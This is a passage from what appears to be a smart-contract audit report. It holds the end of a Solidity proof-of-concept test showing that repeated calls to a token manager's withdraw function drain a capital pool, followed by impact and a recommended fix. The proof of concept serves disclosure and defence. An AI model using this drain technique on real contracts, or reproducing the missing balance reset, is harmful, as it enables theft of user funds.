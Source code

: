 `````Solidity
        tokenManager.withdraw(address(mockUSDCToken), TokenBalanceType(4));
        tokenManager.withdraw(address(mockUSDCToken), TokenBalanceType(4));
        vm.stopPrank();
        uint256 claimableBalanceAfter =
            tokenManager.userTokenBalanceMap(user, address(mockUSDCToken), TokenBalanceType(4));

        uint256 balanceOfCapitalPoolAfter = mockUSDCToken.balanceOf(address(capitalPool));
        uint256 balanceOfUserAfter = mockUSDCToken.balanceOf(user);
        //assert that the claimable balance don't change after the withdraw
        assertEq(claimableBalanceBefore, claimableBalanceAfter);
        // assert that the user drained the protocol

        assertEq(balanceOfCapitalPoolAfter, 0);
        assertEq(balanceOfUserAfter, balanceOfUserBefore + balanceOfCapitalPoolBefore);
    }
```

## Impact

The user can withdraw indefinitely until draining the protocol

## Tools Used

Manual Review

## Recommendations

Add just this line of code at the end of the withdraw function :

```Solidity
   userTokenBalanceMap[_msgSender()][_tokenAddress][_tokenBalanceType] = 0;
        emit Withdraw(_msgSender(), _tokenAddress, _tokenBalanceType, claimAbleAmount);
```

    





